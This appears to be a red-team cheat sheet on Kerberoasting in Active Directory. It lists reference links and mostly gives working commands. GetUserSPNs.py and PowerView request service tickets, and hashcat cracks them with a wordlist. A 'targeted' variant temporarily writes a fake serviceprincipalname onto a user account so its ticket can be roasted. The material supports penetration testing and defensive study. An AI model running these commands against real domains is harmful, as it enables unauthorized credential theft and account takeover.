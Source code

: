 

### Kerberoasting

* [https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/](https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/)
* [http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)
* [https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
* [https://github.com/GhostPack/Rubeus#kerberoast](https://github.com/GhostPack/Rubeus#kerberoast)
* [https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type](https://docs.microsoft.com/ru-ru/archive/blogs/openspecification/windows-configurations-for-kerberos-supported-encryption-type)
* [https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)

Check `msDS-SupportedEncryptionTypes` attribute (if RC4 is enabled):

```
PowerView3 > Get-DomainUser -Identity snovvcrash -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```


#### Normal

##### GetUserSPNs.py

```
$ GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 [-request|-save]
$ hashcat -m 13100 -O -a 0 -w 4 --session=kerberoast -o tgsrep.out tgsrep.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

##### PowerView

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1#L2777)

```
PowerView3 > Invoke-Kerberoast -OutputFormat Hashcat | fl
```


#### Targeted

> We can execute 'normal' Kerberoasting instead: given modification rights on a target, we can change the user’s serviceprincipalname to any SPN we want (even something fake), Kerberoast the service ticket, and then repair the serviceprincipalname value. (@harmj0y, [ref](https://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/))

```
PowerView2 > Get-DomainUser snovvcrash | Select serviceprincipalname
PowerView2 > Set-DomainObject -Identity snovvcrash -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
PowerView2 > $User = Get-DomainUser snovvcrash 
PowerView2 > $User | Get-DomainSPNTicket | fl
PowerView2 > $User | Select serviceprincipalname
PowerView2 > Set-DomainObject -Identity snovvcrash -Clear serviceprincipalname
```
